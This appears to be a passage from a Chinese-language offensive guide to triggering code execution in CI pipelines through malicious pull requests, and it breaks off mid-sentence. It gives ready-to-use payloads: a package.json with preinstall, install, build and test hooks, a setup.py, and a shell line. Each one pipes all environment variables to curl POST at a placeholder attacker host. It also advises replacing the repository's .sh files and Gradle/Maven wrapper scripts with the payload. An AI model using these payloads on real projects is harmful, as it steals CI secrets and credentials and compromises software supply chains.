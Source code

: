 ```json
{
  "name": "my_package",
  "description": "",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "set | curl -X POST --data-binary @- {YourHostName}",
    "install": "set | curl -X POST --data-binary @- {YourHostName}",
    "build": "set | curl -X POST --data-binary @- {YourHostName}",
    "test": "set | curl -X POST --data-binary @- {YourHostName}"
  },
  "repository": {
    "type": "git",
    "url": "https://github.com/foobar/my_package.git"
  },
  "keywords": [],
  "author": "C.Norris"
}
```

### Python - setup.py

> `setup.py`在Python的包管理器的构建过程中被使用。
> 它通常会默认执行。
> 用以下有效负载替换`setup.py`文件可能会触发CI的执行。

```python
import os

os.system('set | curl -X POST --data-binary @- {YourHostName}')
```

### Bash / sh - *.sh

> 仓库中的Shell脚本通常在自定义CI/CD管道中执行。
> 替换仓库中所有的`.sh`文件并提交拉取请求可能会触发CI执行它们。

```shell
set | curl -X POST --data-binary @- {YourHostName}
```

### Maven / Gradle

> 这些包管理器配有“包装器”，有助于运行构建/测试项目的自定义命令。
> 这些包装器本质上是可执行的shell/cmd脚本。
> 用您的有效负载替换它们以执行：

- `gradlew`
- `mvnw`
- `gradlew.bat` (Windows)
- `mvnw.cmd` (Windows)

偶尔仓库中不存在包装器。
在这种情况下，您可以编辑`pom.xml`文件，该文件指示maven获取哪些依赖项以及运行哪些`插件`。
有些插件允许代码执行，以下是常见插件`org.codehaus.mojo`的一个例子。\
